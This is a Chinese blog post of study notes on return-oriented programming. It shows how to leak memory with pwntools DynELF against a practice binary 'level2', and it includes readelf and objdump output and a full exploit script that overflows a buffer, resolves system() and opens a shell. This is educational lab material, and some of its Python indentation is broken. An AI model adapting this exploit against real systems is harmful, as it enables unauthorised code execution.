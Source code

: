 ```yaml
---
title: Leak
date: 2018-03-17 19:25:07
tags: PWN

---
```


## 0x00 前言

看蒸米师傅的一步一步学ROP做的笔记

<!--more-->

## 0x01 具体分析

如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。

这里使用了pwntools提供的DynELF进行内存搜索，首先需要一个leak（address)函数，：

```
def leak(address):
	payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
	p.send(payload1)
	data = p.recv(4)
	print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```

随后将这个函数作为参数再调用d = DynELF(leak, elf=ELF('./level2'))就可以对DynELF模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。

```
mask@mask-virtual-machine:~/mzheng$ readelf -S level2
共有 31 个节头，从偏移量 0x1824 开始：

节头：
  [Nr] Name  TypeAddr OffSize   ES Flg Lk Inf Al
  [ 0]   NULL00000000 000000 000000 00  0   0  0
  [ 1] .interp   PROGBITS08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag NOTE08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash GNU_HASH080481ac 0001ac 000020 04   A  5   0  4
  [ 5] .dynsym   DYNSYM  080481cc 0001cc 000060 10   A  6   1  4
  [ 6] .dynstr   STRTAB  0804822c 00022c 000050 00   A  0   0  1
  [ 7] .gnu.version  VERSYM  0804827c 00027c 00000c 02   A  5   0  2
  [ 8] .gnu.version_rVERNEED 08048288 000288 000020 00   A  6   1  4
  [ 9] .rel.dyn  REL 080482a8 0002a8 000008 08   A  5   0  4
  [10] .rel.plt  REL 080482b0 0002b0 000018 08  AI  5  24  4
  [11] .init PROGBITS080482c8 0002c8 000023 00  AX  0   0  4
  [12] .plt  PROGBITS080482f0 0002f0 000040 04  AX  0   0 16
  [13] .plt.got  PROGBITS08048330 000330 000008 00  AX  0   0  8
  [14] .text PROGBITS08048340 000340 0001c2 00  AX  0   0 16
  [15] .fini PROGBITS08048504 000504 000014 00  AX  0   0  4
  [16] .rodata   PROGBITS08048518 000518 000016 00   A  0   0  4
  [17] .eh_frame_hdr PROGBITS08048530 000530 000034 00   A  0   0  4
  [18] .eh_frame PROGBITS08048564 000564 0000ec 00   A  0   0  4
  [19] .init_array   INIT_ARRAY  08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array   FINI_ARRAY  08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr  PROGBITS08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic  DYNAMIC 08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got  PROGBITS08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt  PROGBITS0804a000 001000 000018 04  WA  0   0  4
  [25] .data PROGBITS0804a018 001018 000008 00  WA  0   0  4
  [26] .bss  NOBITS  0804a020 001020 000004 00  WA  0   0  1
  [27] .comment  PROGBITS00000000 001020 000034 01  MS  0   0  1
  [28] .shstrtab STRTAB  00000000 001717 00010a 00  0   0  1
  [29] .symtab   SYMTAB  00000000 001054 000470 10 30  47  4
  [30] .strtab   STRTAB  00000000 0014c4 000253 00  0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

然后下面的解释直接引用蒸米师父的原话，解释的也很清楚：

> 因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。

那么来找找咯，

```
objdump -D level2 |cat -n |grep pop
```

执行结果

```
mask@mask-virtual-machine:~/mzheng$ objdump -D level2 |cat -n |grep pop
   115	 804823a:	5f   	pop%edi
   120	 8048248:	61   	popa   
   125	 8048257:	5f   	pop%edi
   127	 8048259:	61   	popa   
   133	 8048269:	5f   	pop%edi
   135	 804826c:	61   	popa   
   137	 804826f:	5f   	pop%edi
   138	 8048270:	5f   	pop%edi
   143	 8048277:	5f   	pop%edi
   191	 80482b4:	07   	pop%es
   198	 80482c4:	07   	pop%es
   214	 80482e9:	5b   	pop%ebx
   250	 8048342:	5e   	pop%esi
   424	 80484f8:	5b   	pop%ebx
   425	 80484f9:	5e   	pop%esi
   426	 80484fa:	5f   	pop%edi
   427	 80484fb:	5d   	pop%ebp
   442	 8048516:	5b   	pop%ebx
   536	 80485b9:	61   	popa   
   682	 8049f94:	17   	pop%ss
```

找呀找，找呀找，找到三个连续的pop即可，那么接下来开始构造exp：

```
# !/usr/bin/env python

from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x0804843b

def leak(address):
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
p.send(payload1)
data = p.recv(4)
print "%#x => %s" % (address, (data or '').encode('hex'))
return data

p = process('./level2')

# p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x80484f9

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)

# ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")

p.interactive()
```

